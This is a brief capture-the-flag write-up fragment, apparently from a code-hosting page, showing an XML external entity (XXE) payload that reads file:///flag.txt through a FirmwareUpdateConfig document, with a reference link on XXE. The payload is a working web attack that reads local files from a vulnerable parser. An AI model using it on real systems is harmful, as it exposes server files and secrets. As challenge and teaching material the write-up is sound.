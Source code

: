 
XXE payload i used to retrieve flag

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
    </Firmware>
</FirmwareUpdateConfig>




XML external entity injection

https://portswigger.net/web-security/xxe

